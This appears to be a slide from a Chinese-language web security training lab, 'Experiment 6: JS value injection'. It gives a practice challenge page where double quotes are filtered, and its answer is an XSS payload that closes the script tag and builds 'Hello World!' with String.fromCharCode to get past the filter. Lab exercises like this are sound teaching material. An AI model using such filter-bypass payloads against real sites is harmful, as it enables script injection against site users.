

# 实验6: js值注入
要求：注入-弹出“Hello World！”
页面
http://mcir.pte.com/xssmh/challenges/challenge6.php
过滤：双引号
请求：GET

答案： </script><script>a=String.fromCharCode(72, 101, 108, 108, 111, 32, 87, 111, 114, 108, 100, 33);alert(a);</script>